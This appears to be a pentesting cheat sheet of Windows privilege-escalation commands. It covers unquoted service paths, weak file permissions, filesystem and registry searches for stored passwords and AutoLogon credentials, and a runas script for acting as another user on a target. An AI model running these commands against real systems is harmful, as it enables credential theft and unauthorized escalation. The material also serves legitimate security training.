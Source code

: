 ### Get all services with unquoted service paths
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

### Check file permissions (built-in)
```
icacls [FILE]
```
```
cacls [FILE]
```

### Search filesystem for files containing specific keywords (regex search)
```
dir /s *pass* == *cred* == *vnc* == *.config*
```

### Search filesystem for certain file types containing specific keyword (ex. password)
```
findstr /si password *.xml *.ini *.txt
```

### Find directories with weak file permissions
```
accesschk.exe /accepteula -uwdqs Users c:\
accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\
```

### Find credentials in registry from configured "AutoLogin"
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```


## Powershell: Run command as another user

### Create [runas.ps1](runas.ps1) Powershell script on target system
**Note:** Requires the other user's cleartext password; fill in [USERNAME], [PASSWORD], [COMMAND_NAME], and [CMD_ARG...] values accordingly.
```
echo $username = '[USERNAME]' > runas.ps1
echo $securePassword = ConvertTo-SecureString "[PASSWORD]" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process -FilePath [COMMAND_NAME] -ArgumentList '[CMD_ARG1]','[CMD_ARG2]',...,'[CMD_ARGN]' -Credential $credential >> runas.ps1
```
